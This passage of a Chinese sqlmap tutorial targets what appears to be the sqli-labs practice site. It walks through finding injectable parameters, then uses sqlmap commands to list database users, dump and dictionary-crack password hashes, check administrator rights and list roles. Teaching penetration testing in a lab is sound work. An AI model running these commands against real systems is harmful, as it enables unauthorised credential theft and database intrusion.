 可以看到，已经探测到 uname 参数存在漏洞了，问我们是否还想探测其他参数，我们选择的 y ，它检测到passwd也存在漏洞了，问我们是否还想探测其他参数，我们选择 n

[![img](https://p4.ssl.qhimg.com/t010d67187cada10591.png)](https://p4.ssl.qhimg.com/t010d67187cada10591.png)

然后会让我们选择，在后续的测试中，是选择 uname 这个参数还是passwd这个参数作为漏洞，随便选择一个就好了。

[![img](https://p0.ssl.qhimg.com/t01562d119ea7abc2a0.png)](https://p0.ssl.qhimg.com/t01562d119ea7abc2a0.png)

### 查看数据库的所有用户(—users)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users #查看数据库的所有用户
```

### [![img](https://p1.ssl.qhimg.com/t01094c128ee722bb40.png)](https://p1.ssl.qhimg.com/t01094c128ee722bb40.png)

### 查看数据库所有用户名的密码(—passwords)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords #查看数据库用户名的密码
```

第一处询问我们是否保存密码的hash值为文件，我们不保存。第二处问我们是否使用sqlmap自带的字典进行爆破，我们选择y，可以看出把密码爆破出来了，root用户的密码也为root。如果这里爆破不出来，我们可以拿hash值去字典更强大的地方爆破

### [![img](https://p1.ssl.qhimg.com/t0163773c28f2937ed5.png)](https://p1.ssl.qhimg.com/t0163773c28f2937ed5.png)

### 查看数据库当前用户(—current-user)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
```

### 判断当前用户是否有管理权限(—is-dba)

查看当前账户是否为数据库管理员账户

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba  #判断当前用户是否有管理员权限
```

### [![img](https://p1.ssl.qhimg.com/t0121e516c7c614fc1b.png)](https://p1.ssl.qhimg.com/t0121e516c7c614fc1b.png)

### 列出数据库管理员角色(—roles)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles   #列出数据库所有管理员角色
```

### [![img](https://p1.ssl.qhimg.com/t01a095aa631969a7fc.png)](https://p1.ssl.qhimg.com/t01a095aa631969a7fc.png)
